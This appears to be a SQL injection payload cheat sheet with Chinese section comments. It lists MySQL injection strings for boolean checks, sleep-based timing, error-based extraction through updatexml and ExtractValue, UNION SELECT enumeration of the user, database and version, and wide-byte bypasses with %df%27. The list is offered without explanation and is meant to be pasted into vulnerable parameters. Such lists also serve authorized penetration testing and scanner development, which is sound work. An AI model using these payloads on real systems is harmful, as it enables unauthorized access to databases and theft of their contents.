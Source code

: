 ```linux
or 1=1 --+
or 1=2 --+
or ''=''--+
or 's'='s'--+
or ('a'='a
and 1=1 and '%'='
order+by+1--+
order+by+100--+
and length(database())>=1--+
and length(database())>=100--+
and (select count(*) from admin)>0; --+
and (select count(*) from admin)>100; --+
AND id != NULL; --+
or id != NULL; --+
and length((select user()))>=1--+
and length((select database()))>=1--+
and ord(substr(database(),1,1))=64--+
and ord(substr(database(),1,1))=150--+
and if(ascii(substr((select database()),1,1))>64, 1, 0)--+

# 判断时间注入语句
and sleep(3)--+
and (() or sleep(3))--+
and (select sleep(5))--+
and ('1'=' or sleep(3))--+
and if(length(database())>0,sleep(5),1)--+
and if(length((select user()))>1,sleep(10),0)--+
and if(length((select database()))>1,sleep(10),0)--+

# 判断报错注入语句
or updatexml(1,concat(0x5e5e,version(),0x5e5e),1)--+
union select 1,1,exp(~(select*from(select user())x))--+
union select 1,1,exp(~(select*from(select database())x))--+
union select updatexml(1,concat(0x7e,(select user()),0x7e),1)--+
union select updatexml(1,concat(0x7e,(select database()),0x7e),1)--+
union SELECT 1,1,ExtractValue('<a><b><b/></a>',concat('~',(select user()),'~'))--+
union SELECT 1,1,ExtractValue('<a><b><b/></a>',concat('~',(select database()),'~'))--+
union select count(*),1, concat('~',(select user()),'~', floor(rand()*2)) as a from information_schema.tables group by a--+

# 联合查询注入，要让前面的参数不正确，这个才显示
union+select+1--+
union+select+1,2,3,4,5,6,7,8,9--+
union select @@version --+
union select user() --+
union select database()--+

# 宽字节注入
%a1%27 or 1--+
%df%27 and 1--+
%df%27 or()or 0
%a1%27 order+by+1--+
%df%27 or 0 union select 1,group_concat(schema_name) from information_schema.schemata--+
```
